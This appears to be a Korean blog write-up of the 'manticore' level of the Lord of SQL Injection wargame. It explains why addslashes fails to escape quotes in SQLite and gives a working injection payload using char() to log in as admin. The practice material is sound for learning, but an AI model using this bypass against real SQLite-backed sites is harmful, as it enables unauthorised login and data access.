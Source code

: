 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - manticore 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


`SQLite`의 두 번째 문제이다.  

이 번 문제도 간단한 편이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from member where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/manticore.db");
  $_GET['id'] = addslashes($_GET['id']);
  $_GET['pw'] = addslashes($_GET['pw']);
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("manticore");
  highlight_file(__FILE__);
?>
```

언뜻 보면 이 전 문제랑 동일해 보인다.  

그런데 이번에는 `addslashes`가 추가되어 있다.  

처음엔 이걸 어떻게 풀어야 하나 고민했었다.  

그러다 문득 든 생각이 `SQLite`에서 `\'`를 입력했을 때 과연 이걸 `\`와 `'`로 인식할까 혹은 `'`를 문자열 안에서 쓰기 위해 앞에 `\`를 삽입 한 것으로 인식할까였다.  

그래서 인터넷에서 `SQLite`를 테스트 할 수 있는 사이트를 찾아 직접 실행 해 보았다.  

[https://sqliteonline.com/](https://sqliteonline.com/)

위의 사이트에서 아래와 같이 입력 해 보았다.  

```
SELECT '\'';
```

만약 `\'`를 `\`와 `'`로 인식한다면 오류가 날 것이고, `'`를 입력하기 위해 `\`를 사용한 것으로 인식한다면 `'`를 출력 할 것이다.  

그 결과 아래와 같이 오류가 나는 것을 알 수 있었다.  

```
Uncaught Error: unrecognized token: "'\'';"
```

그리고 아까 입력 한 쿼리에서 `'`를 하나 빼면 정상적으로 `\`가 출력되었다.  

즉, `addslashes`를 통해 `'` 앞에 `\`를 추가하더라도, 정상적으로 문자열을 닫을 수 있다.  

그래서 문제를 풀기 위해 아래와 같은 쿼리를 사용했다.  

```
?id=a' or id=char(97,100,109,105,110) -- &pw=asd
```

완성되는 쿼리는 다음과 같다.  

```
select id from member where id='a\' or id=char(97,100,109,105,110) -- ' and pw='asd'
```

`where`절만 살펴보면, 앞의 `id='a\'`는 `id`가 `a\`인 값을 찾는 조건이 된다.  

`id`가 `a\`인 값은 없을 것이므로 `or` 뒤의 조건을 실행한다.  

`id=char(97,100,109,105,110)`인데, `id='admin'`을 넣으면 `addslashes` 때문에 `id=\'admin\'`이 되기 때문에 `char()`을 사용해 `id`가 `admin`인 행을 추출하도록 했다.  

이 후 뒤의 부분은 주석처리 되어 실행하지 않을 것이다.  

위의 쿼리를 넘겨준 결과 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------
query : select id from member where id='a\' or id=char(97,100,109,105,110) -- ' and pw='asd'
-------------------------------------------------------------------------------------------------

MANTICORE Clear!
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/manticore.db");
  $_GET['id'] = addslashes($_GET['id']);
  $_GET['pw'] = addslashes($_GET['pw']);
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("manticore");
  highlight_file(__FILE__);
?>
```

`MANTICORE Clear!`